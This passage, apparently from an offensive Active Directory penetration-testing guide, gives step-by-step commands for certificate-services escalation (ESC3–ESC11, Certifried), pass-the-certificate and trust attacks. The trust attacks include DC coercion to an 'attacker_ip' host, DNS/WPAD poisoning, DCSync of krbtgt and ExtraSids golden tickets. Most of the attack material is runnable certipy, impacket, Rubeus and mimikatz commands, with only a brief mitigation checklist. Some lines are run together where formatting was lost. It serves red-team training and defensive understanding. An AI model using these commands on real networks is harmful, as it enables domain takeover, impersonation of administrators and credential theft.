certipy auth -pfx user.pfx -dc-ip 10.10.10.1010.3.3 ESC3: Enrollment Agent Template Abuse
ESC3 is a two-step attack. First, enroll in a template that has the Certificate Request Agent EKU (OID 1.3.6.1.4.1.311.20.2.1). This "enrollment agent" certificate can then be used to enroll on behalf of another user in a second template that permits enrollment agent co-signing.
Step 1: Obtain an enrollment agent certificate
# Request enrollment agent certificate
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template EnrollmentAgentStep 2: Use the enrollment agent certificate to request on behalf of another user
# Co-sign a certificate request as administrator
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template UserTemplate -on-behalf-of 'CORP\administrator' -pfx enrollment_agent.pfx
# Authenticate with the resulting certificate
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10Application Policy Issuance Requirement set to Certificate Request Agent, and the enrollee must be permitted to co-sign.10.3.4 ESC4: Vulnerable Certificate Template Access Control
If a low-privileged user has write access to a certificate template object in AD (e.g., WriteDacl, WriteProperty, or GenericAll), they can modify the template to make it vulnerable to ESC1, then exploit it.
# Identify templates with weak ACLs
certipy find -u user@corp.local -p 'Password123' -dc-ip 10.10.10.10 -vulnerable
# Modify the template to enable ENROLLEE_SUPPLIES_SUBJECT and add Client Auth EKU
# Then exploit as ESC1
certipy template -u user@corp.local -p 'Password123' -template TargetTemplate -save-old
# Request cert with arbitrary SAN (now ESC1)
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template TargetTemplate -upn administrator@corp.local
# Restore original template configuration
certipy template -u user@corp.local -p 'Password123' -template TargetTemplate -configuration old-config.jsonThe key permissions to look for on template objects:
- Owner of the template object
- FullControl / GenericAll
- WriteOwner or WriteDacl (to grant yourself FullControl)
- WriteProperty on the
msPKI-Certificate-Name-FlagorpKIExtendedKeyUsageattributes
Methodology
- ESC1: request a certificate with an arbitrary SAN to impersonate Domain Admin:
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template VulnerableTemplate -upn administrator@corp.local - Authenticate using the issued certificate:
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10 - ESC2: enroll in an Any Purpose or No EKU template and authenticate:
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template AnyPurposeTemplate certipy auth -pfx user.pfx -dc-ip 10.10.10.10 - ESC3 Step 1: obtain an enrollment agent certificate:
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template EnrollmentAgent - ESC3 Step 2: co-sign a request on behalf of another user and authenticate:
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template UserTemplate -on-behalf-of 'CORP\administrator' -pfx enrollment_agent.pfx certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10 - ESC4: modify a writable template to enable ENROLLEE_SUPPLIES_SUBJECT, exploit as ESC1, then restore:
certipy template -u user@corp.local -p 'Password123' -template TargetTemplate -save-old certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template TargetTemplate -upn administrator@corp.local certipy template -u user@corp.local -p 'Password123' -template TargetTemplate -configuration old-config.json
10.4 PKI and CA Attacks (ESC5-8)
ESC5 targets the broader PKI objects in Active Directory rather than individual templates. If an attacker can modify the CA object, the NTAuthCertificates object, or other PKI-related objects in the Configuration Naming Context, they can compromise the entire PKI.
10.4.1 ESC5: Vulnerable PKI Object Access Control
ESC5 targets the broader PKI objects in Active Directory rather than individual templates. If an attacker can modify the CA object, the NTAuthCertificates object, or other PKI-related objects in the Configuration Naming Context, they can compromise the entire PKI.
Vulnerable objects include:
- CA server computer object: compromising the CA host gives access to the CA private key
- CA object in AD (
CN=Enrollment Services): controls which templates the CA publishes - NTAuthCertificates object: defines which CAs are trusted for authentication; adding a rogue CA here enables forged certificate authentication
- Enrollment Services container: managing this grants control over CA configuration in AD
# Check ACLs on the CA object in AD
Get-ADObject "CN=corp-DC01-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Properties nTSecurityDescriptor | Select-Object -ExpandProperty nTSecurityDescriptor | Select-Object -ExpandProperty Access10.4.2 ESC6: EDITF_ATTRIBUTESUBJECTALTNAME2 on the CA
When the CA has the EDITF_ATTRIBUTESUBJECTALTNAME2 flag enabled, any certificate request can include a user-defined SAN, regardless of the template configuration. This effectively turns every template with an authentication EKU into an ESC1-vulnerable template.
# Check if the flag is enabled on the CA
certutil -config "dc01.corp.local\corp-DC01-CA" -getreg "policy\EditFlags"
# Look for EDITF_ATTRIBUTESUBJECTALTNAME2 (0x00040000)# Exploit with Certipy: request any template with a custom SAN
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template User -upn administrator@corp.localszOID_NTDS_CA_SECURITY_EXT extension (1.3.6.1.4.1.311.25.2), which embeds the requester's SID in the certificate. This mitigates ESC6 on patched CAs because the SID in the extension will not match the SAN, causing authentication to fail unless StrongCertificateBindingEnforcement is set to 0.10.4.3 ESC7: Vulnerable CA Access Control (ManageCA and ManageCertificates)
The CA itself has an access control list. Two privileges on the CA object are particularly dangerous: ManageCA and ManageCertificates.
ManageCA Privilege
A principal with ManageCA can modify CA configuration, including enabling the EDITF_ATTRIBUTESUBJECTALTNAME2 flag (escalating to ESC6) or adding themselves as a Certificate Manager.
# Add yourself as officer (ManageCertificates)
certipy ca -u user@corp.local -p 'Password123' -ca corp-DC01-CA -add-officer user
# Enable EDITF_ATTRIBUTESUBJECTALTNAME2
certipy ca -u user@corp.local -p 'Password123' -ca corp-DC01-CA -enable-flag EDITF_ATTRIBUTESUBJECTALTNAME2ManageCertificates Privilege
A principal with ManageCertificates (also called Certificate Manager or Officer) can approve pending certificate requests. This is useful when a template requires manager approval.
# Submit a request that requires approval
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template ApprovalRequired -upn administrator@corp.local
# Approve the pending request (requires ManageCertificates)
certipy ca -u officer@corp.local -p 'Password123' -ca corp-DC01-CA -issue-request 123
# Retrieve the issued certificate
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -retrieve 123Combined Exploitation
With ManageCA, an attacker can grant themselves ManageCertificates, then submit and approve requests for any user via the SubCA template. The SubCA template is built-in, enabled by default, and requires CA manager approval:
# Full chain: ManageCA -> add officer -> enable SubCA template -> request -> approve -> auth
certipy ca -u user@corp.local -p 'Password123' -ca corp-DC01-CA -add-officer user
certipy ca -u user@corp.local -p 'Password123' -ca corp-DC01-CA -enable-template SubCA
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template SubCA -upn administrator@corp.local
# Request will be denied initially; note the request ID
certipy ca -u user@corp.local -p 'Password123' -ca corp-DC01-CA -issue-request <ID>
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -retrieve <ID>10.4.4 ESC8: NTLM Relay to AD CS HTTP Endpoints
When AD CS exposes HTTP-based enrollment endpoints (Certificate Enrollment Web Service or Certificate Authority Web Enrollment), these endpoints accept NTLM authentication by default. An attacker can relay NTLM authentication to these endpoints to request certificates on behalf of the coerced principal.
# Start ntlmrelayx targeting the CA web enrollment endpoint
impacket-ntlmrelayx -t http://ca01.corp.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
# Coerce authentication from a domain controller (PetitPotam)
python3 PetitPotam.py attacker_ip dc01.corp.local
# The relay request produces a Base64-encoded certificate
# Decode and use it for authentication
certipy auth -pfx dc01.pfx -dc-ip 10.10.10.10This attack is particularly powerful when combined with authentication coercion against domain controllers, as it yields a DC machine certificate that can be used for DCSync via PKINIT.
Methodology
- ESC5: check ACLs on the CA and PKI objects for write access:
Get-ADObject "CN=corp-DC01-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Properties nTSecurityDescriptor | Select-Object -ExpandProperty nTSecurityDescriptor | Select-Object -ExpandProperty Access - ESC6: check if EDITF_ATTRIBUTESUBJECTALTNAME2 is enabled on the CA:
certutil -config "dc01.corp.local\corp-DC01-CA" -getreg "policy\EditFlags" - ESC6: if enabled, request any authentication template with a custom SAN:
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template User -upn administrator@corp.local - ESC7: with ManageCA, add yourself as officer and enable the SubCA template:
certipy ca -u user@corp.local -p 'Password123' -ca corp-DC01-CA -add-officer user certipy ca -u user@corp.local -p 'Password123' -ca corp-DC01-CA -enable-template SubCA - ESC7: request a SubCA cert, approve the pending request, then retrieve it:
certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template SubCA -upn administrator@corp.local certipy ca -u user@corp.local -p 'Password123' -ca corp-DC01-CA -issue-request <ID> certipy req -u user@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -retrieve <ID> - ESC8: relay NTLM authentication to the CA HTTP enrollment endpoint:
impacket-ntlmrelayx -t http://ca01.corp.local/certsrv/certfnsh.asp -smb2support --adcs --template DomainController - ESC8: coerce DC authentication and use the relayed certificate:
python3 PetitPotam.py attacker_ip dc01.corp.local certipy auth -pfx dc01.pfx -dc-ip 10.10.10.10
10.5 Advanced ESC Attacks (ESC9-13)
ESC9 abuses the CT_FLAG_NO_SECURITY_EXTENSION flag on a certificate template. When this flag is set, the szOID_NTDS_CA_SECURITY_EXT SID extension is not embedded in issued certificates. This means certificate mapping falls back to the UPN or DNS name alone, bypassing SID-based strong mapping.
10.5.1 ESC9: Certificate Mapping Bypass (NoSecurityExtension)
ESC9 abuses the CT_FLAG_NO_SECURITY_EXTENSION flag on a certificate template. When this flag is set, the szOID_NTDS_CA_SECURITY_EXT SID extension is not embedded in issued certificates. This means certificate mapping falls back to the UPN or DNS name alone, bypassing SID-based strong mapping.
Requirements:
StrongCertificateBindingEnforcementis not set to 2 (full enforcement mode)- The template has the
CT_FLAG_NO_SECURITY_EXTENSIONflag - The template permits Client Authentication
- The attacker has
GenericWriteover another account to change its UPN
# Change the target user's UPN to match the admin
certipy account update -u user@corp.local -p 'Password123' -user victim -upn administrator
# Request a certificate for the victim (UPN now = administrator)
certipy req -u victim@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template NoSecExt
# Restore the victim's UPN
certipy account update -u user@corp.local -p 'Password123' -user victim -upn victim@corp.local
# Authenticate with the certificate (maps to administrator via UPN)
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.1010.5.2 ESC10: Certificate Mapping Bypass (Weak Registry Keys)
ESC10 exploits weak certificate mapping registry keys on the domain controller. Two distinct cases exist, depending on which registry key is misconfigured.
Case 1: CertificateMappingMethods
When HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel\CertificateMappingMethods includes the 0x4 flag (UPN mapping), Schannel will map certificates based on UPN without verifying the SID extension.
# Check the registry value on the DC
reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel" /v CertificateMappingMethodsExploitation follows the same pattern as ESC9: modify a user's UPN via GenericWrite, request a certificate, restore the UPN, authenticate.
Case 2: StrongCertificateBindingEnforcement
When HKLM\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement is set to 0 (disabled) or 1 (compatibility mode), the KDC does not enforce strict SID-certificate mapping during PKINIT. This allows certificates obtained for one user (via UPN manipulation) to authenticate as another.
# Check the value on the DC
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Kdc" /v StrongCertificateBindingEnforcement
# 0 = Disabled (vulnerable), 1 = Compatibility (vulnerable), 2 = Full enforcement (secure)10.5.3 ESC11: NTLM Relay to AD CS ICPR (RPC) Endpoints
Similar to ESC8, ESC11 targets the AD CS RPC endpoint (ICertPassage Remote Protocol, MS-ICPR) instead of the HTTP endpoint. If the CA does not enforce IF_ENFORCEENCRYPTICERTREQUEST (encryption required for RPC), NTLM authentication can be relayed to the RPC enrollment interface.
# Check if encryption is enforced
certipy find -u user@corp.local -p 'Password123' -dc-ip 10.10.10.10
# Look for "Enforce Encryption for Requests: Disabled"
# Relay to the RPC endpoint
certipy relay -ca ca01.corp.local -template DomainController
# Coerce authentication
python3 PetitPotam.py attacker_ip dc01.corp.localMethodology
- ESC9: change target user UPN to the admin, request a cert from a NoSecurityExtension template, then restore:
certipy account update -u user@corp.local -p 'Password123' -user victim -upn administrator certipy req -u victim@corp.local -p 'Password123' -ca corp-DC01-CA -target dc01.corp.local -template NoSecExt certipy account update -u user@corp.local -p 'Password123' -user victim -upn victim@corp.local - ESC9: authenticate with the certificate (maps to administrator via UPN):
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10 - ESC10: check DC registry for weak certificate mapping configuration:
reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel" /v CertificateMappingMethods reg query "HKLM\SYSTEM\CurrentControlSet\Services\Kdc" /v StrongCertificateBindingEnforcement - ESC10: if weak mapping exists, exploit with the same UPN manipulation flow as ESC9
- ESC11: check if RPC encryption is enforced, then relay to the ICPR endpoint:
certipy find -u user@corp.local -p 'Password123' -dc-ip 10.10.10.10 certipy relay -ca ca01.corp.local -template DomainController - ESC11: coerce authentication to trigger the relay:
python3 PetitPotam.py attacker_ip dc01.corp.local
10.6 Certificate Persistence and Summary
Certificate mapping determines how a certificate is associated with an AD account during authentication. Two mapping types exist:
10.6.1 Certificate Mapping
Certificate mapping determines how a certificate is associated with an AD account during authentication. Two mapping types exist:
| Mapping Type | Mechanism | Security |
|---|---|---|
| Explicit (Strong) | Maps via the altSecurityIdentities attribute on the user object, using the certificate's serial number and issuer or the SID extension | Secure; requires exact match |
| Implicit (Weak) | Maps via UPN, email, or DNS name in the certificate's SAN field | Vulnerable; UPN can be manipulated if the attacker has write access |
Microsoft's KB5014754 (May 2022) introduced the SID extension and StrongCertificateBindingEnforcement registry key to enforce explicit mapping. Full enforcement (value 2) blocks implicit mapping entirely.
# View certificate mapping on a user object
Get-ADUser administrator -Properties altSecurityIdentities | Select-Object -ExpandProperty altSecurityIdentities
# Manually add explicit mapping
Set-ADUser administrator -Replace @{altSecurityIdentities="X509:<SKI>abc123..."}
10.6.2 Certifried (CVE-2022-26923)
Certifried exploits a privilege escalation vulnerability in certificate-based authentication. By default, any domain user can create machine accounts (up to the ms-DS-MachineAccountQuota limit). When the new machine account requests a certificate using the built-in Machine template, the certificate is mapped based on the dNSHostName attribute.
The attack: create a machine account, set its dNSHostName to match a domain controller's hostname, then request a certificate. The issued certificate maps to the DC.
# Create a machine account
impacket-addcomputer corp.local/user:Password123 -computer-name 'EVIL$' -computer-pass 'Passw0rd!'
# Set dNSHostName to match a DC
python3 bloodyAD.py -d corp.local -u user -p 'Password123' --host dc01.corp.local set object 'EVIL$' dNSHostName -v 'dc01.corp.local'
# Request a Machine certificate for the spoofed machine
certipy req -u 'EVIL$'@corp.local -p 'Passw0rd!' -ca corp-DC01-CA -target dc01.corp.local -template Machine
# Authenticate as the DC
certipy auth -pfx dc01.pfx -dc-ip 10.10.10.1010.6.3 PKINIT and Alternative Authentication
PKINIT is a Kerberos extension (RFC 4556) that enables certificate-based pre-authentication. Instead of encrypting the timestamp with a password-derived key, the client signs the AS-REQ with a certificate's private key. The KDC validates the signature, checks the certificate chain, verifies the SAN/SID mapping, and issues a TGT.

Pass-the-Certificate (PtC) uses a stolen or forged certificate to obtain a TGT via PKINIT:
# Certipy: certificate to TGT
certipy auth -pfx admin.pfx -dc-ip 10.10.10.10
# Returns the NT hash and a ccache file
# Rubeus: certificate to TGT
Rubeus.exe asktgt /user:administrator /certificate:admin.pfx /password:pfxpass /pttUnPAC-the-Hash: when PKINIT authentication succeeds, the PAC in the TGT contains the user's NT hash encrypted with the session key. This allows extracting the NTLM hash from a PKINIT TGT:
# Certipy automatically extracts the NT hash during auth
certipy auth -pfx admin.pfx -dc-ip 10.10.10.10
# Output includes: NT hash: aad3b435b51404eeaad3b435b51404ee:...10.6.4 Using BloodHound with Certipy
Certipy can output enumeration data in BloodHound-compatible format, adding ADCS edges and nodes to the attack graph.
# Generate BloodHound data with ADCS information
certipy find -u user@corp.local -p 'Password123' -dc-ip 10.10.10.10 -old-bloodhound
# Import the generated JSON files into BloodHound
# Look for edges: CanEnroll, HasEnrollmentRights, IssuedSignedBy, EnterpriseCAFor, etc.Key ADCS edges in BloodHound:
- CanEnroll: principal has enrollment rights on a template
- ADCSESC1 through ADCSESC10: specific escalation path edges
- IssuedSignedBy: certificate chain relationships
- EnterpriseCAFor: CA to domain relationships
- RootCAFor / NTAuthStoreFor: trust anchor relationships
10.6.5 ADCS Attack Summary
| ESC | Vulnerability | Requirement | Impact |
|---|---|---|---|
| ESC1 | Enrollee supplies SAN | Enrollment rights + auth EKU | Impersonate any user |
| ESC2 | Any Purpose / No EKU | Enrollment rights | Auth as enrollee or impersonate (if SAN enabled) |
| ESC3 | Enrollment agent template | Enrollment rights on agent template | Enroll on behalf of any user |
| ESC4 | Template ACL misconfiguration | Write access to template object | Modify template to ESC1 |
| ESC5 | PKI object ACL misconfiguration | Write access to PKI objects | Compromise CA or trust anchors |
| ESC6 | EDITF_ATTRIBUTESUBJECTALTNAME2 | Enrollment rights on any auth template | Impersonate any user |
| ESC7 | ManageCA / ManageCertificates | CA ACL privileges | Approve requests or enable ESC6 |
| ESC8 | HTTP enrollment relay | NTLM coercion + HTTP endpoint | Certificate as coerced principal |
| ESC9 | No security extension flag | GenericWrite + template flag | UPN mapping bypass |
| ESC10 | Weak registry mapping | GenericWrite + weak registry config | UPN mapping bypass |
| ESC11 | RPC enrollment relay | NTLM coercion + RPC endpoint | Certificate as coerced principal |
Mitigation checklist:
- Audit all published templates: disable
CT_FLAG_ENROLLEE_SUPPLIES_SUBJECTwhere not explicitly needed - Remove enrollment rights from low-privileged groups (especially Domain Users and Domain Computers)
- Enable manager approval on sensitive templates
- Remove the
EDITF_ATTRIBUTESUBJECTALTNAME2flag from all CAs - Enforce
StrongCertificateBindingEnforcement = 2on all DCs - Disable HTTP enrollment endpoints or require EPA (Extended Protection for Authentication)
- Enforce encryption on ICPR (RPC) endpoints
- Monitor certificate enrollment events (Event IDs 4886, 4887) and PKINIT authentication (Event ID 4768 with certificate info)
- Use Certipy or PSPKIAudit to audit ADCS regularly
Methodology
- Certifried (CVE-2022-26923): create a machine account and spoof its dNSHostName to a DC:
impacket-addcomputer corp.local/user:Password123 -computer-name 'EVIL$' -computer-pass 'Passw0rd!' python3 bloodyAD.py -d corp.local -u user -p 'Password123' --host dc01.corp.local set object 'EVIL$' dNSHostName -v 'dc01.corp.local' - Request a Machine template certificate for the spoofed account and authenticate as the DC:
certipy req -u 'EVIL$'@corp.local -p 'Passw0rd!' -ca corp-DC01-CA -target dc01.corp.local -template Machine certipy auth -pfx dc01.pfx -dc-ip 10.10.10.10 - Pass-the-Certificate: use a stolen PFX to obtain a TGT via PKINIT:
certipy auth -pfx admin.pfx -dc-ip 10.10.10.10 - UnPAC-the-Hash: extract the NT hash from a PKINIT TGT (certipy outputs it automatically):
certipy auth -pfx admin.pfx -dc-ip 10.10.10.10 - View existing certificate mappings on a target user:
Get-ADUser administrator -Properties altSecurityIdentities | Select-Object -ExpandProperty altSecurityIdentities - Generate BloodHound-compatible ADCS data and import for attack path analysis:
certipy find -u user@corp.local -p 'Password123' -dc-ip 10.10.10.10 -old-bloodhound
11. Active Directory Trust Attacks
Active Directory trusts define authentication relationships between domains and forests. Misconfigured or inherently permissive trusts create pathways for lateral movement and privilege escalation across security boundaries.
11.1 Trust Fundamentals
Trust relationships allow principals in one domain to authenticate and access resources in another. The key trust properties:
| Property | Options | Meaning |
|---|---|---|
| Direction | One-way inbound, One-way outbound, Two-way | Determines which direction authentication flows. In a one-way trust, the trusting domain allows access from the trusted domain. |
| Transitivity | Transitive, Non-transitive | Transitive trusts extend to other domains trusted by the trusted domain. Parent/child and tree-root trusts are always transitive. |
| Type | Parent/Child, Tree-root, Forest, External, Realm, Shortcut | Determines default properties. Forest trusts are transitive within each forest but not across additional forests. |
| Trust Type | Created | Transitive | SID Filtering |
|---|---|---|---|
| Parent/Child | Automatically | Yes | Disabled (within same forest) |
| Tree-root | Automatically | Yes | Disabled (within same forest) |
| Forest | Manually | Yes (within each forest) | Enabled by default |
| External | Manually | No | Enabled by default |
| Realm (Kerberos) | Manually | Configurable | Varies |
| Shortcut | Manually | Yes | Disabled (same forest) |

Enumerating trusts:
# PowerView
Get-DomainTrust
Get-DomainTrust -Domain child.corp.local
Get-ForestTrust
# Built-in tools
nltest /domain_trusts /all_trusts
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
# BloodHound Cypher
MATCH (d:Domain)-[r:TrustedBy]->(d2:Domain) RETURN d.name, r, d2.name# From Linux
ldapsearch -H ldap://dc01.corp.local -D "user@corp.local" -w 'Password123' -b "CN=System,DC=corp,DC=local" "(objectClass=trustedDomain)" cn trustDirection trustType trustAttributes11.2 Intra-Forest Trust Attacks
Servers configured for unconstrained delegation cache TGTs of any user that authenticates to them. Within a forest, if an attacker compromises a server with unconstrained delegation, they can coerce a domain controller to authenticate and capture its TGT, then use it for DCSync or other privileged operations.
11.2.1 Unconstrained Delegation (Intra-Forest)
Servers configured for unconstrained delegation cache TGTs of any user that authenticates to them. Within a forest, if an attacker compromises a server with unconstrained delegation, they can coerce a domain controller to authenticate and capture its TGT, then use it for DCSync or other privileged operations.
# Find unconstrained delegation servers (excluding DCs)
Get-DomainComputer -Unconstrained | Where-Object { $_.distinguishedname -notmatch "Domain Controllers" } | Select-Object dnshostname
# Monitor for incoming TGTs with Rubeus
Rubeus.exe monitor /interval:5 /nowrap /targetuser:DC01$# Coerce DC authentication using SpoolSample / PrinterBug
python3 printerbug.py corp.local/user:Password123@dc01.corp.local ud-server.corp.local
# Or use PetitPotam
python3 PetitPotam.py ud-server.corp.local dc01.corp.localThe captured TGT can be injected and used for DCSync:
# Inject the captured TGT
Rubeus.exe ptt /ticket:doIFxj...
# DCSync
mimikatz # lsadump::dcsync /domain:corp.local /user:krbtgt11.2.2 Configuration Naming Context Abuse
The Configuration Naming Context (NC) is replicated to all domain controllers across the entire forest. Any domain user in any child domain can read the Configuration NC, gaining visibility into the entire forest's structure: sites, subnets, services, ADCS objects, and trust objects.
# Query the Configuration NC from a child domain
Get-ADObject -SearchBase "CN=Configuration,DC=corp,DC=local" -Filter * -Properties * | Select-Object distinguishedName, objectClass
# Enumerate all sites and subnets
Get-ADReplicationSite -Filter *
Get-ADReplicationSubnet -Filter *
# Enumerate ADCS from a child domain
Get-ADObject -SearchBase "CN=Public Key Services,CN=Services,CN=Configuration,DC=corp,DC=local" -Filter * -Properties *This is significant for intra-forest attacks because a child domain user can enumerate the entire forest's PKI, find vulnerable certificate templates, and exploit them from across domain boundaries.
11.2.3 Abusing Foreign Groups and ACL Principals (Intra-Forest)
Within a forest, principals from one domain can be members of groups in another domain (foreign group membership) or have ACL entries on objects in another domain. These cross-domain relationships create attack paths.
# Find foreign group membership
Get-DomainForeignGroupMember -Domain corp.local
# Find foreign ACL principals
Find-InterestingDomainAcl -Domain corp.local -ResolveGUIDs | Where-Object { $_.IdentityReferenceDomain -ne "corp.local" }# BloodHound query: find cross-domain edges
MATCH (u)-[r]->(g) WHERE u.domain <> g.domain RETURN u.name, type(r), g.nameCommon patterns include: a child domain admin group nested inside the parent domain's "Server Operators" group, or a service account from the child granted GenericAll on objects in the parent.
Methodology
- Enumerate servers with unconstrained delegation (excluding DCs):
Get-DomainComputer -Unconstrained | Where-Object { $_.distinguishedname -notmatch "Domain Controllers" } | Select-Object dnshostname - Start Rubeus monitor on compromised UD server and coerce DC authentication:
Rubeus.exe monitor /interval:5 /nowrap /targetuser:DC01$ - Trigger DC authentication via PrinterBug or PetitPotam:
python3 printerbug.py corp.local/user:Password123@dc01.corp.local ud-server.corp.local # Or python3 PetitPotam.py ud-server.corp.local dc01.corp.local - Inject captured TGT and DCSync:
Rubeus.exe ptt /ticket:doIFxj... mimikatz # lsadump::dcsync /domain:corp.local /user:krbtgt - Query the Configuration NC from a child domain to enumerate forest-wide PKI and sites:
Get-ADObject -SearchBase "CN=Configuration,DC=corp,DC=local" -Filter * -Properties * | Select-Object distinguishedName, objectClass Get-ADReplicationSite -Filter * Get-ADReplicationSubnet -Filter * - Find foreign group memberships and cross-domain ACL principals:
Get-DomainForeignGroupMember -Domain corp.local Find-InterestingDomainAcl -Domain corp.local -ResolveGUIDs | Where-Object { $_.IdentityReferenceDomain -ne "corp.local" } - Use BloodHound to map cross-domain edges:
MATCH (u)-[r]->(g) WHERE u.domain <> g.domain RETURN u.name, type(r), g.name
11.3 Child-to-Parent Trust Attacks
Enterprise CAs publish templates in the Configuration NC, which is forest-wide. A user in a child domain can enroll in vulnerable templates published by a CA in the parent domain, provided the template grants enrollment rights to principals from the child domain (e.g., "Authenticated Users" or "Domain Users" from the child).
11.3.1 Abusing ADCS Across Trust (Child to Parent)
Enterprise CAs publish templates in the Configuration NC, which is forest-wide. A user in a child domain can enroll in vulnerable templates published by a CA in the parent domain, provided the template grants enrollment rights to principals from the child domain (e.g., "Authenticated Users" or "Domain Users" from the child).
# From child domain, find vulnerable templates on the parent CA
certipy find -u user@child.corp.local -p 'Password123' -dc-ip 10.10.10.20 -vulnerable
# Request a certificate for a parent domain admin (ESC1)
certipy req -u user@child.corp.local -p 'Password123' -ca corp-ROOT-CA -target root-dc.corp.local -template VulnerableTemplate -upn administrator@corp.local
# Authenticate to the parent domain
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.1011.3.2 GPO On Site Attack (Child to Parent)
Group Policy Objects linked to AD Sites apply to all computer objects in that site, regardless of their domain. If an attacker in a child domain can create or modify a GPO linked to a site containing parent domain computers, they can execute code in the parent domain context.
# Enumerate GPOs linked to sites
Get-DomainGPO -SearchBase "CN=Sites,CN=Configuration,DC=corp,DC=local"
# Check permissions on site-linked GPOs
Get-DomainGPO -Identity "{GPO-GUID}" | Get-DomainObjectAcl -ResolveGUIDs | Where-Object { $_.ActiveDirectoryRights -match "WriteProperty|GenericAll" }If writable, modify the GPO to add a scheduled task or startup script that executes a payload on parent domain computers within the site.
11.3.3 GoldenGMSA Attack (Child to Parent)
Group Managed Service Accounts (gMSAs) derive their passwords from the Key Distribution Service (KDS) root key stored in the Configuration NC. Since the Configuration NC is forest-wide, an attacker who can read the KDS root key from any domain can compute the password for any gMSA in the forest.
# Read KDS root keys (requires domain admin in any domain within the forest)
Get-ADObject -SearchBase "CN=Master Root Keys,CN=Group Key Distribution Service,CN=Services,CN=Configuration,DC=corp,DC=local" -Filter * -Properties *# GoldenGMSA: compute gMSA password from KDS root key
python3 GoldenGMSA.py -d corp.local -u user -p 'Password123' --kds-root-key-guid <GUID> --sid <gMSA-SID>
# Alternative: use gMSADumper to retrieve the password
python3 gMSADumper.py -u user -p 'Password123' -d corp.local11.3.4 DNS Trust Attack (Child to Parent)
Active Directory Integrated DNS (ADIDNS) zones are stored in the domain NC or application partitions. By default, authenticated users can create new DNS records in the ADIDNS zone. An attacker in a child domain can inject DNS records in the parent domain's ADIDNS zone (if permissions allow) or use WPAD/LLMNR poisoning across trust boundaries.
# Add a DNS record via LDAP (dnstool.py)
python3 dnstool.py -u 'child.corp.local\user' -p 'Password123' -a add -r wpad.corp.local -d attacker_ip dc01.corp.local
# Or inject a wildcard record
python3 dnstool.py -u 'child.corp.local\user' -p 'Password123' -a add -r '*.corp.local' -d attacker_ip dc01.corp.localWith a WPAD record pointing to an attacker-controlled server, browsers configured for WPAD proxy auto-discovery will send credentials through the attacker's proxy, enabling hash capture or relay.
11.3.5 ExtraSids Attack (Child to Parent)
The ExtraSids attack exploits the fact that within a forest, SID filtering is disabled by default on parent/child trusts. An attacker who compromises the krbtgt hash of a child domain can forge a Golden Ticket that includes the Enterprise Admins SID (or any other parent domain SID) in the ticket's ExtraSids field.

Golden Ticket with ExtraSids
The forged ticket is valid across the parent/child trust boundary because SID filtering is not applied. The Enterprise Admins SID (S-1-5-21-<root-domain>-519) in the ExtraSids field grants the ticket holder Enterprise Admin privileges in the parent domain.
Required information:
- Child domain
krbtgtNTLM hash - Child domain SID
- Parent domain (root) SID
- Enterprise Admins group RID (519)
From Windows (Mimikatz)
# Get child domain SID
Get-DomainSID
# Get parent domain SID
Get-DomainSID -Domain corp.local
# Forge Golden Ticket with ExtraSids
mimikatz # kerberos::golden /user:Administrator /domain:child.corp.local /sid:S-1-5-21-CHILD-SID /krbtgt:KRBTGT_HASH /sids:S-1-5-21-PARENT-SID-519 /ptt
# Verify access to parent DC
dir \\dc01.corp.local\C$
mimikatz # lsadump::dcsync /domain:corp.local /user:corp\krbtgtFrom Linux (ticketer.py)
# Forge inter-realm TGT with ExtraSids
impacket-ticketer -nthash KRBTGT_HASH -domain child.corp.local -domain-sid S-1-5-21-CHILD-SID -extra-sid S-1-5-21-PARENT-SID-519 Administrator
# Use the ticket
export KRB5CCNAME=Administrator.ccache
impacket-secretsdump -k -no-pass dc01.corp.localRemediation
- SID filtering cannot be enabled on intra-forest trusts without breaking functionality
- Focus on protecting the child domain's
krbtgtaccount - Implement tiered administration: do not place forest-critical services in child domains
- Monitor for TGTs with ExtraSids containing the Enterprise Admins SID (Event ID 4769 with SID field)
- Use Microsoft's Protected Users group for privileged accounts
Methodology
- From child domain, find vulnerable ADCS templates on parent CA:
certipy find -u user@child.corp.local -p 'Password123' -dc-ip 10.10.10.20 -vulnerable - Request a certificate impersonating a parent domain admin (ESC1):
